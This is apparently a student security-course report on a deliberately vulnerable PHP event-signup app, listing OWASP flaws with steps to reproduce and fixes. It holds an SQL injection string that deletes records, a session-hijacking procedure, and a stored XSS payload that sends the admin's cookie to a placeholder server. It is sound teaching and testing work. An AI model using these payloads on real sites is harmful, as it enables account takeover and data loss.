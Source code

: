 # The Report

This project is done with PHP in a LAMP environment.<br> 
See https://github.com/j0ly/firstproject/blob/master/README.md for installation instructions.

There are many problems with this code, but I will only mention the most relevant problems and the most important fixes (as I see them) for each OWASP vulnerability, without going into details. Had to draw a line somewhere, otherwise I could have ended up spending so much time with this (and the assignment didn’t say how specific we needed to be about the fixes). 

The OWASP vulnerabilities:

## A1-Injection

### How to identify 
Sign up some users to the event. Check from the Admin page. Then go to the Cancel page and enter: ```' OR '1'='1```. All the sign-ups are now gone, as you can see from the Admin page!    

### How to fix
The “mysqli_real_escape_string” function can be used in “delete.php” on the $ticket variable, to prevent the SQL-injection (as used in “done.php” on other variables). But a simple input validation (fixed length + lowcase alfanum only) will also fix the problem in this case.
## A2-Broken Authentication and Session Management
The cookie-session-id and the clear text admin credentials are sent over an unencrypted connection.<br>

### How to identify (broken session management)
You can get access to the Admin page using the stolen cookie-session-id like this (but before you begin, install the “Advanced Cookie Manager” Firefox add-on):

1. Capture the cookie-session-id with OWASP ZAP. 
2. Go to the Admin login-page with Firefox (but don’t log in, - if you are not asked for the credentials then close the browser and try again). 
3. Open “Advanced Cookie Manager” and enter the cookie-session-id you saw with OWASP ZAP into the "Value" box, replacing the existing one (delete first, then paste). Save the change.
4. Re-enter the Admin page (do not only reload), and you’re in without entering credentials!

Note: You can use OWASP ZAP together with another browser, to capture the cookie-session-id, when logging in.

### How to fix
Use SSL for the website (see the link in Readme for details)! 

## A3
There are both Stored and Reflected XSS vulnerabilities. The Stored XSS code can be entered on the SignUp page, and executed on the Admin page when listing the sign-ups. 
### How to identify (stored XSS)
Enter this code into the address field on the SignUp page;

```<img src=x onerror=this.src='http://yourserver/?c='+document.cookie>```

When the admin logs in and takes a look at the sign-ups, his session-id should be written to the logs of “yourserver”.<br> 
But you can also test with code like this, in any of the fields on the SignUp page; 
```<body onload=alert('hello')>```

### How to fix
HTML codes should be escaped using the htmlspecialchars or htmlentities PHP-functions + the input validated as tightly as possible (length, allowed characters, format etc.).

## A6
Credit card numbers are sent without SSL in cleartext with POST, and stored unencrypted in the database. And, the session cookie and the admin credentials can be stolen since SSL is not in use (see A2).

### How to identify
Capture the (imaginary) credit card numbers using OWASP ZAP.

### How to fix: 
Again, use SSL (see the link in Readme for details)! 

But there are many requirements when handling credit card data, see https://en.wikipedia.org/wiki/Payment_Card_Industry_Data_Security_Standard<br>
Regarding the session cookie and admin credentials, see the A2-fix.

## A7
The database credentials are stored in an easy to guess plaintext config file, inside the web-root, and is lacking access control.
### How to identify
Modify “yourserver” in this link to match your installation; http://yourserver/firstproject/admin/config.ini. Then open this link with your browser, and you should see the credentials.
### How to fix
Deny access to the config.ini file, in one way or another. 

There is already a .htaccess file in the admin folder that should do that, but Apache does not by default enable the use of .htaccess files. To enable, do this:

  Open /etc/apache2/apache2.conf in an editor, and find these lines;
  ```
  <Directory /var/www/>
        Options Indexes FollowSymLinks
        AllowOverride None
        Require all granted
  </Directory>
  ```
  Change “AllowOverride None” to “AllowOverride All”. Run the command “apachectl restart”, and try to open the link again.
